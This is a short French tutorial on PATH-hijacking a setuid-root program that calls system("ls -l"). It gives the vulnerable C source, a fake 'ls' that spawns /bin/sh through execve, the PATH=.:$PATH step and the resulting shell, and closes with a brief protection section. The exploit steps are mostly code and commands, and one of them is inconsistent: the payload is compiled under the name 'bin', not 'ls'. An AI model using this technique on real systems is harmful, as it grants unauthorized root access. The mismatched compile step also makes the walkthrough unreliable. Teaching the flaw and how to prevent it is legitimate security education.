 # System()

## I. La faille
La fonction system() de Linux permet d'éxécuter une commande passée en argument. Pour savoir où se trouve le fichier à lancer lorsque le chemin absolue n'est pas précisé, system() utilise la variable d'environnement $PATH. Il est donc possible d'agir sur cette variable pour tromper system().

## II. Pré-requis
* Un programme suid
* L'argument de system() est un chemin relatif

    
    ```{r, engine='bash'}
    aas@ubuntu:~$ cat vuln.c
    ```
    
    ```{r, engine='C'}
    void main()
    {
      system("ls -l");
    }
    ```

Le comportement normal de ce programme est le suivant. Notons le suid activé.

    ```{r, engine='bash'}
    aas@ubuntu:~$ ./vuln

    total 48
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Desktop
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Documents
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Downloads
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Music
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Pictures
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Public
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Templates
    drwxr-xr-x 2 aas  aas  4096 sept. 16 09:45 Videos
    -rws--x--x 1 root root 8600 sept. 16 10:07 vuln
    -rw-rw-r-- 1 aas  aas    34 sept. 16 10:07 vuln.c 
    ```

## III. Exploitation de la faille
### Création d'un faux programme 'ls'
    ```{r, engine='bash'}
    aas@ubuntu:~$ cat exploit.c 
    ```
    ```{r, engine='C'}
    void main()
    {
      char *shell[] = {"/bin/sh",NULL};
      execve(shell[0],shell,NULL);
    }
    ```
    ```{r, engine='bash'}
    aas@ubuntu:~$ gcc exploit.c -o bin
    ```


### Modification de $PATH
    ```{r, engine='bash'}
    aas@ubuntu:~$ PATH=.:$PATH
    ```

### Execution
    ```{r, engine='bash'}
    aas@ubuntu:~$ ./vuln 
    $
    ```
    
## IV. Protection
On utilise les fonctions de type exec à la place de System. Mettre le chemin absolue avec system est dangereux malgré tout puisqu'il est possible d'utiliser la faille IFS sur certains "anciens".

